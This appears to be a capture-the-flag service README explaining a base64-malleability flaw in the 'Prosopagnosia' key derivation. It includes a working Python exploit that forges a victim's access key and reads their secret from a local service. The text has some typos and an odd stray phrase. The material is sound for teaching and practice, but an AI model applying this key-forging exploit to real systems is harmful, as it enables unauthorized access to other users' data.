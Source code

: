 # Prosopagnosia

A little srvice to practize in rewriting of AD-services :)

Backend has 3 routes: create rom, get rom, list roms, first of two accept arguments (rom name especially) as base64 encoded string.
Every rom has an access key generated as:
```
std::string demo_service::get_key(const std::string &name) {
    auto name_decoded = base64_decode(name);

    SHA256 sha;
    sha.update(name_decoded.value);
    sha.update(keys_secret);

    auto digest = sha.digest();
    std::string sha256 = SHA256::toString(digest.get());

    return base64_encode(sha256);
}
```

Which means, that the access key is `base64(sha256(b64decode(name) + secret))`. Solution to the dog's disappearance is base64, which can have more than one encoded strings, that leads to one source string. For example:
```
b64decode('ZGVtby0zYzkxMGMyYi04YzM5LTQxODMtOTExMS03MGYyNDQ0MDk2MWP=') == demo-3c910c2b-8c39-4183-9111-70f24440961c
b64decode('ZGVtby0zYzkxMGMyYi04YzM5LTQxODMtOTExMS03MGYyNDQ0MDk2MWM=') == demo-3c910c2b-8c39-4183-9111-70f24440961c
```

That happens when encoding string has length that not divides by 3, 2 bits of encoded string becomes isinsignificant and can be replaced by any value, which leads to different encoded strings, but same source string.

Prosopagnosia service compares for base64 string of name for collision checking, but when its computing the access key it uses decoded string. So, hacking algorithm is:
```
1) get list of demos names
2) find some base64 that represents that names but not equals to first used base64
3) give the key that is equal to the key of the victim
4) GET /api/demo
```

The sploit for getting base64 collisions can be:
```
import requests
import base64
import string

NAME_HEADER = 'X-Svm-Name'
SECRET_HEADER = 'X-Svm-Secret'
AUTHOR_HEADER = 'X-Svm-Author'
KEY_HEADER = 'X-Svm-Key'

base64_alpha = string.ascii_letters + string.digits

victim_name = 'ZGVtby0zYzkxMGMyYi04YzM5LTQxODMtOTExMS03MGYyNDQ0MDk2MWP='
victim_name_decoded = base64.b64decode(victim_name).decode()

some_content = b'hello-there'

same_base64 = []

for a in base64_alpha:
    p = victim_name[:-2] + a + victim_name[-1]
    if p == victim_name:
        continue
    if base64.b64decode(p).decode() == victim_name_decoded:
        same_base64.append(p)
        print(p)

if len(same_base64) == 0:
    print('no collision')
    exit()

p = same_base64[0]

print(f'will use {p}')

with requests.post('http://localhost:15345/api/demo', 
                   headers={NAME_HEADER: p, SECRET_HEADER: 'TWu=', AUTHOR_HEADER: 'TWu='},
                   files={p: some_content}) as r:
    if r.status_code != 200: raise ValueError(f'{r.status_code} on post')

    key = r.headers.get(KEY_HEADER)

    print(f'The key for {victim_name} is {key}')

with requests.get('http://localhost:15345/api/demo',
                  headers={NAME_HEADER: victim_name, KEY_HEADER: key}) as r:
    if r.status_code != 200: raise ValueError(f'{r.status_code} on get')

    print(r.json()['secret'])
```

